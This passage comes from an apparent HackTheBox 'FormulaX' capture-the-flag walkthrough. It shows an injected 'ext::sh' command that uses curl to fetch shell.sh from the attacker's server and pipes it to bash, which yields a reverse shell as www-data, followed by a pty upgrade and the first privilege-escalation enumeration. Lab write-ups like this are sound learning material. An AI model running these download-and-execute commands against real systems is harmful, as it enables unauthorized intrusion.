 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-26.png)

We will now run the command that will download **shell.sh** and run it:

`ext::sh -c curl% http://10.10.14.36:9001/shell.sh|bash`

As the command is executed, it grabs **shell.sh** from our Python web server:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-27.png)

After it grabs **shell.sh**, it runs it, and we are now given reverse shell as **www-data**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-28.png)

Before further enumeration, let's make the shell more interactive using Python:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-30.png)

## Privesc: www-data to frank_dorky
### Local Enumeration

**www-data** has not enough privilege. We would have to escalate our privilege into different users such as **frank_dorky** or **kai_relay**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-31.png)

We will first check on internally open ports:

`netstat -ano | grep tcp | grep ESTABLISHED`
